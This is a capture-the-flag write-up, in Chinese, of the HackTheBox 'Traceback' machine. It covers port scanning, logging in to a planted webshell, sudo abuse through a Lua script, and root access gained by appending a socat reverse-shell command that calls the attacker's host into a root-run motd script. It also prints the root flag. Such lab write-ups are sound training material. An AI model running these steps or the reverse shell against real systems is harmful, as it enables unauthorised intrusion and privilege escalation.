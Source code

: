 # HackTheBox-Traceback Notes

> victim: 10.10.10.181
>
> local: 10.10.14.17

## 信息搜集

### SYN端口扫描结果

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Webshell

通过提示信息找到了webshell地址`/smevk.php`，用户名/密码admin

通过Socat升级到完全交互式shell

.bash_history

```bash
ls -la
sudo -l # 发现 /home/sysadmin/luvit 不需要密码就可以sudo执行
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua #os.execute("/bin/bash") 直接提权
rm privesc.lua
logout
exit
ls
cd ~
ls
exit
```

note.txt

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

## Privilege Escalation

LinEnum没有找到合适的结果

在运行中的进程可以看到

```
/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

发现`/etc/update-motd.d/`目录可写，且会利用root执行任务

利用这个可以提权

> Any code in that file will be run as the root account since the ssh-server service is run as root.

执行命令

```bash
echo "/var/www/html/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.17:4444" >> 00-header
```

Kali开始监听，victim退出重登，成功获取root shell

root.txt

```
82555710fefbfd8899f3117b9693badb
```

